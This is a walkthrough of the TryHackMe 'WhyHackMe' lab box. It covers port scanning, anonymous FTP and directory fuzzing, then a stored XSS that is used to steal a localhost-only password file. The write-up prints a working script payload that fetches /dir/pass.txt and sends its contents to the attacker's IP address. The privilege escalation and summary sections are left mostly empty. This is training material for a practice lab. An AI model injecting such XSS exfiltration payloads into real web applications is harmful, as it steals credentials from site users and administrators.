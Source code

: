 ```yaml
---
layout: post
title:  "TryHackMe | Whyhackme"
description: "Walkthrough of whyhackme machine, a Medium rated box from TryHackme"
date: "2024-11-11"
pin: true
image:
  path: ../assets/img/ctf/tryhackme/whyhackme1.png
  alt: "whyhackme.thm"
category: "TryHackMe"
tags: ["ThyHackMe", "Stored XSS", "Iptables Rules", "TLS Traffic Decryption"]
---
```

## Introduction
------------------------------------------------------------------------------------------
[WhyHackMe](https://tryhackme.com/r/room/whyhackme) is a medium rated linux box from tryhackme. It has 3 ports opens 21 running ftp, 22 running ssh and 80 running a web application. The foothold consist of exploiting a stored XSS vulnerability to exfiltrate a critical file that can be dicovered on the ftp server. The privilege escalation part involve playing with ipatables rules and decrypting some TLS traffic to access a backdoor runing on a particular port. From here get a reverse shell as www-data who his allowed to run any command as root without a password.

------------------------------------------------------------------------------------------

## Enumeration
We start by full scan to discover all tcp opened ports...
### All Open Ports
```bash
rustscan -a 10.10.4.243
```

```text
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.47 seconds
           Raw packets sent: 7 (284B) | Rcvd: 4 (160B)
```
### Services Scanning
```bash
nmap -p21,22,80 -sC -sV -oN whyhackme.full 10.10.4.243
```

```text
Nmap scan report for 10.10.4.243
Host is up (0.058s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.9.2.138
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             318 Mar 14  2023 update.txt
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 47:71:2b:90:7d:89:b8:e9:b4:6a:76:c1:50:49:43:cf (RSA)
|   256 cb:29:97:dc:fd:85:d9:ea:f8:84:98:0b:66:10:5e:6f (ECDSA)
|_  256 12:3f:38:92:a7:ba:7f:da:a7:18:4f:0d:ff:56:c1:1f (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Welcome!!
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.99 seconds
```
### Hostname
```bash
echo '10.10.4.243   whyhackme.thm' >> /etc/hosts
```

## FootHold
### Port 21
Since we have anonymous access on the ftp server let's check what we can find there.
```bash
ftp whyhackme.thm
```
![ftp access](./assets/img/ctf/tryhackme/whyhackme2.png)

```text
└─# cat update.txt       
Hey I just removed the old user mike because that account was compromised and for any of you who wants the creds of new account visit 127.0.0.1/dir/pass.txt and don't worry this file is only accessible by localhost(127.0.0.1), so nobody else can view it except me or people with access to the common account. 

- admin
```
The update.txt file contains an admin message telling that the new account creds can be find at 127.0.0.1/dir/pass.txt, however this is only accessible from localhost.

### Port 80
![web root](./assets/img/ctf/tryhackme/whyhackme3.png)
```bash
ffuf -c -u http://whyhackme.thm/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php
```

```text
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://whyhackme.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 58ms]
assets                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 55ms]
blog.php                [Status: 200, Size: 3102, Words: 422, Lines: 23, Duration: 54ms]
.php                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 8150ms]
.htpasswd.php           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 8583ms]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 8801ms]
.htaccess.php           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 9094ms]
.hta.php                [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 9471ms]
cgi-bin/                [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 55ms]
cgi-bin/.php            [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 58ms]
                        [Status: 200, Size: 563, Words: 39, Lines: 30, Duration: 54ms]
.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 54ms]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 56ms]
dir                     [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 61ms]
index.php               [Status: 200, Size: 563, Words: 39, Lines: 30, Duration: 66ms]
index.php               [Status: 200, Size: 563, Words: 39, Lines: 30, Duration: 68ms]
login.php               [Status: 200, Size: 523, Words: 45, Lines: 21, Duration: 59ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 57ms]
register.php            [Status: 200, Size: 643, Words: 36, Lines: 23, Duration: 64ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 60ms]
```
![registration](./assets/img/ctf/tryhackme/whyhackme4.png)
One registered, we can login at `/login.php`. After loged in we can access the blog page where we are allowed to add comments. Let's try adding a comment... 
![blog](./assets/img/ctf/tryhackme/whyhackme9.png)
As we can see, our comment get obviously saved on the server and can be viewed by all the users. We can test for xss there but also in the username field of the registration page since our username also get displayed back.
After trying, i got my xss payload from the username field executed...
![no xss](./assets/img/ctf/tryhackme/whyhackme10.png)
![xss-malicioususer](./assets/img/ctf/tryhackme/whyhackme11.png)
![xss-poc](./assets/img/ctf/tryhackme/whyhackme12.png)
How can we leverage this xss? The admin comment on the blog: `Hey people, I will be monitoring your comments so please be safe and civil`, this suggest us that we can try to leverage this and steal the admin cookie so we can be can have admin access in the applicatin. I've tryied that but no success. However, a recall that we have gotten an admin note from the ftp server. Since we can't access the admin cookie but still can perform actions as admin and in our case i guess the admin is acccessing the blog from localhost. This gives us an opportunity using the xss to exfiltrate the pass.txt file.
```js
<script>fetch("http://127.0.0.1/dir/pass.txt").then(r => r.text()).then(t => fetch("http://10.9.2.138/?q="+t,{mode:"no-cors"}))</script>
```
![exfiltration](./assets/img/ctf/tryhackme/whyhackme13.png)

### Port 22
```bash
ssh jack@whyhackme.thm
```
![registration](./assets/img/ctf/tryhackme/whyhackme5.png)


## Privilege Escalation
```bash
wget http://10.9.2.138/linpeas.sh
./linpeas.sh
```
![sudo -l](./assets/img/ctf/tryhackme/whyhackme6.png)
![another vhost](./assets/img/ctf/tryhackme/whyhackme7.png)
![opt folder](./assets/img/ctf/tryhackme/whyhackme8.png)


## Kill Chain Summary


## References